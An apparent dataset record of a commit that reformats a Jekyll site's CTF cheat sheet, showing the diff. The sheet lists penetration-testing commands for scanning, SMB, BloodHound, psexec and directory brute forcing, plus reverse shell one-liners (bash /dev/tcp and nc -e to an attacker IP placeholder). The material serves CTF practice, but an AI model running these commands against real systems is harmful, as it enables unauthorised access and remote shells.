

Before and after one commit to haxrbyte/ghost-shell, a Jekyll site: the page built from docs/Cheatsheets/ctf-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2057 px. Shown: the whole window at 94% size, without its empty margins (141-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Fix formatting and syntax in CTF cheatsheet

````diff
--- a/docs/Cheatsheets/ctf-cheatsheet.md
+++ b/docs/Cheatsheets/ctf-cheatsheet.md
@@ -12,51 +12,55 @@ title: CTF Cheat Sheet
 # PortScan
 
 ```bash
-$ sudo rustscan -a <target> -- -sCV -oA <filename>
+sudo rustscan -a <target> -- -sCV -oA <filename>
 ```
 
 # SMB
 
 ```bash
-$ smbclient -L //<target> -U <username>%<password>
-
-$ smbclient //<target>/<share> -U <username>%<password>
+smbclient -L //<target> -U <username>%<password>
+```
+```bash
+smbclient //<target>/<share> -U <username>%<password>
 ```
 
 # BloodHound
 
 ```bash
-$ sudo ./bloodhound containers start
+sudo ./bloodhound containers start
 ```
 
 ## RustHound
 
 ```bash
-$ rusthound-ce --domain <domain_name> -u <username> -p <password>
+rusthound-ce --domain <domain_name> -u <username> -p <password>
 ```
 
 # Remote Access
 
 ```bash
-$ impacket-psexec <domain_name>/<username>:'<password>'@<target>
+impacket-psexec <domain_name>/<username>:'<password>'@<target>
 ```
 
 # Web Server
 
 ```bash
-$ python3 -m http.server <8080:port> -d <directory>
+python3 -m http.server <8080:port> -d <directory>
 ```
 
 # Web Enumeration
 
-## Files or Directorues
+## Files or Directories
 ```bash
 dirsearch -u http://<target>
-
+```
+```bash
 gobuster dir -u http://<target> -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html
-
+```
+```bash
 dirb http://<target>
-
+```
+```bash
 ffuf -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php
 ```
 
@@ -69,17 +73,18 @@ ffuf -u <url> -H "Host: FUZZ.<domain_name>" -w /usr/share/wordlists/dirbuster/di
 
 ```bash
 rlwrap nc -nvlp <8080:port>
-
+```
 rlwrap will enhance the shell, allowing you to clear the screen with [CTRL] + [L].
-```
 
 # Reverse Shell
 
 ```bash
 'bash -c "bash -i >& /dev/tcp/<attachet_ip>/<8080:port> 0>&1"'
-
+```
+```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
-
+```
+```bash
 nc -e /bin/sh <attacker_ip> <8080:port>
 ```
 
````
